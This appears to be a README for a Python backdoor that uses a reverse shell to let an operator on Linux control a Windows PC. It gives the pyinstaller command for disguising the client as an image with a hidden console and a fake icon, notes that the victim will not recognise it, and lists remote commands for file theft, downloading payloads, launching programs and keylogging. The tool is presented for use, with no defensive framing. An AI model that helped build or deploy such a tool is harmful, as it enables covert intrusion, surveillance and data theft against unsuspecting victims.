 This backdoor helps us to execute commands on the target PC (Windows)

Run the server.py on Linux OS and win_reverse(reverse shell should be sent to target PC(windows))

Before running this, edit both the files and change the IP address to your Linux IP

First by pyinstaller we should convert win_reverse.py into win_reverse.exe file

Eg:pyinstaller --add-data "/root/image.jpg:," --onefile --noconsole --icon /root/image.ico win_reverse.py

	Here --add-data allows us to open an image
	     --onefile is used to make one executable file
	     --noconsole is to hide the command prompt
   	     --icon is for the thumbnail of the exe file

Here the victim won't be able to figure out that this is a Backdoor

The only thing he can see is an image

Now run the server.py on your Linux OS

As soon as victim opens the exe file we can execute any commands on Target PC 


download path	->Download a file from target PC

upload path	->Uploads a file to target PC

get url		-> download a file to target from any website

start path	->start program on target PC

check		->check for administrator priviledges

keylog_start	->Start keylogger on target PC

keylog_dump	->Print keystrokes captured by keylogger

q		->quit
